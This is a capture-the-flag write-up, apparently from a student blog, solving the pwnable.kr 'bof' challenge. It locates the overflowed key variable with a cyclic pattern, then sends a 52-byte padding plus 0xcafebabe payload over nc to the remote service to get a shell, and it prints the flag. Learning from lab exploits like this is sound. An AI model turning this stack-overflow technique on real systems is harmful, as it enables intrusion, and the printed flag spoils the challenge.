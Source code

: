 I could use the string to find where is target place.

![image-20210203154029685](/assets/images/202102/image-20210203154029685.png)

I know it overflows the varibable at the start of `Ab` . Next is to find the content of variable `key`, then I know the place to overflow key's data. 

![image-20210203154931846](/assets/images/202102/image-20210203154931846.png)

I learned to print the key as a sequence of 4 characters on the class tutorial notes. 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A|**KEY**|b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

The bold words are where key is. Now I can set any value I want to key. 

So, the expoit string is `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A + \xbe\xba\xfe\xca`. 

Since it doesn't matter what content is in the overflow variable, so I replace the long string with one char `q`.

Now I have the overflow string, so I'll use a python script to help me input it:

```
(python -c "print 'q'*52 +'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

This pythin script will input the data to pwnable.kr's 9000 port. It's like running a local program `./bof`. The difference is piped the data to a remote server.  

![image-20210203162452643](/assets/images/202102/image-20210203162452643.png)

Finally, I have the user `col`'s  shell and use it to get the flag.

And the flag is `daddy, I just pwned a buFFer :)`


